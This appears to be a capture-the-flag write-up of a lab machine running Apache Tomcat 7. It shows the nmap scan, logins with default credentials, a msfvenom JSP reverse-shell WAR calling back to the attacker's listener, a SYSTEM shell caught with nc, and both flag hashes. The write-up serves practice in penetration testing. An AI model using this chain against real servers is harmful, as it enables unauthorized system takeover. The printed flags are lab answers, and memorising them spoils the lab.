 # Enumeration

Starting with nmap:

```shell
nmap -Pn -sC -sV 10.129.47.251 -o nmap.txt                                                                                              main 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-09 11:16 CEST
Nmap scan report for 10.129.47.251
Host is up (0.030s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.37 seconds
```

Check on browser tomcat and ask for login when try to serverstatus, manager app, host manager...

![tomcat_login](IMG/tomcat_login.jpg)

Trying with defualt credentials we can login (admin/admin):

![tomcat_status](IMG/tomcat_status.jpg)

More information about OS: Windows server 2012 R2 (6.3) and tomcat/7.0.88

We can't access to list Applications:

![manager_not](IMG/tomcat_manager_not.jpg)

Try to login with tomcat/s3cret default password and manage app:

![manager_yes](IMG/tomcat_manager_yes.jpb)

# FootHold

Lets try to upload war reverseshell following [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#war) information:

```shell
 Jerry  FootHold msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.28 LPORT=4242 -f war > reverse.war
Payload size: 1085 bytes
Final size of war file: 1085 bytes

Jerry  FootHold  strings reverse.war | grep jsp # in order to get the name of the file      main 
mtvzkgzp.jsp}TQo
mtvzkgzp.jspPK
```

Upload file and, open local nc -nlvp 4242 sesion, and go to http://10.129.47.251:8080/reverse/. Check  nc session:
```shell
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>

C:\Users\Administrator\Desktop\flags>type 2*
type 2*
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>

```

Volià!
